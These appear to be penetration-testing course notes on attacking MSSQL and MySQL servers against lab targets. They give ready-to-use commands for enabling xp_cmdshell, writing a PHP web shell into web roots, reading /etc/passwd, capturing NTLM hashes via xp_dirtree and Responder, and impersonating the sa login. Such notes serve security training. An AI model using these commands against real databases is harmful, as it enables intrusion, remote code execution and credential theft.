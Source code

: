 # Attacking SQL Database

systems that store data in tables (rows and columns) and use **SQL** to manage and query it.

Database servers are prime targets because they hold sensitive stuff like user credentials, personal info (PII), business data, and payment details. Plus, they’re often set up with high-privilege accounts. If we get in, we can use those privileges to move around the network (lateral movement) or gain more power (privilege escalation).

#### Enumeration:

* **MSSQL** uses TCP/1433 and UDP/1434 by default, or TCP/2433 if "hidden."
* **MySQL** uses TCP/3306.
*   We use **Nmap** to scan: **Output (example):**

    ```bash
    nmap -Pn -sV -sC -p1433 10.10.10.125
    ```

    * Port 1433 open.
    * Version: Microsoft SQL Server 2017.
    * Hostname: mssql-test.
    * Domain: HTB.LOCAL.

This gives us key info like version and hostname to spot misconfigs or vulnerabilities.

#### Authentication:

* **MSSQL** has two modes:
  1. **Windows Authentication**: Default, tied to Windows/AD accounts. No extra credentials if logged into Windows.
  2. **Mixed Mode**: Allows Windows or SQL Server-specific users/passwords.
* **MySQL**: Supports username/password and Windows auth (with a plugin).

Misconfigs can let us in without credentials. An old MySQL vuln (CVE-2012-2122) let you bypass auth by spamming a wrong password, exploiting timing differences.

#### Misconfigurations:

If auth is open (anonymous access) or a user has no password, we’re in.

#### Privileges:

With high privileges, we can:

* Read/edit database contents.
* Execute system commands.
* Read files.
* Steal hashes.
* Impersonate users.

#### Protocol Attacks:

#### Read/Change Data:

Once inside, we list databases, tables, and data. We pick tables with juicy info like passwords.

#### Connect:

* **MySQL**:

```bash
mysql -u julio -pPassword123 -h 10.129.20.13
```

*   **MSSQL** (Windows):

    ```bash
    sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!'
    ```
*   From Linux:

    ```bash
    sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
    ```

#### Execute Commands:

* **MSSQL**: Use **`xp_cmdshell`**:

Enable it if off:

````
```bash
xp_cmdshell 'whoami'
GO
```

```bash
EXECUTE sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO
```
````

* **MySQL**: No direct equivalent, but we can write executable files.

#### Write Files:

* **MySQL**:

Check secure\_file\_priv:

````
```bash
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

```bash
show variables like "secure_file_priv";
```
````

*   **MSSQL**:

    ```bash
    sp_configure 'Ole Automation Procedures', 1
    GO
    RECONFIGURE
    GO
    DECLARE @OLE INT
    EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
    EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\\inetpub\\wwwroot\\webshell.php', 8, 1
    EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
    GO
    ```

#### Read Files:

*   **MSSQL**:

    ```bash
    SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
    GO
    ```
*   **MySQL**:

    ```bash
    select LOAD_FILE("/etc/passwd");
    ```

#### Capture Hash:

*   **MSSQL**: Use \*\*`xp_dirtree**` with Responder:

    ```bash
    EXEC master..xp_dirtree '\\\\10.10.110.17\\share\\'
    GO
    ```

    ```bash
    sudo responder -I tun0
    ```

#### Impersonate Users:

*   **MSSQL**:

    ```bash
    EXECUTE AS LOGIN = 'sa'
    SELECT SYSTEM_USER
    GO
    ```

#### Talk to Other Databases:

*   **MSSQL**:

    ```bash
    SELECT srvname FROM sysservers
    GO
    EXECUTE('select @@servername') AT [10.0.0.12\\SQLEXPRESS]
    GO
    ```

This covers the basics of attacking SQL databases!
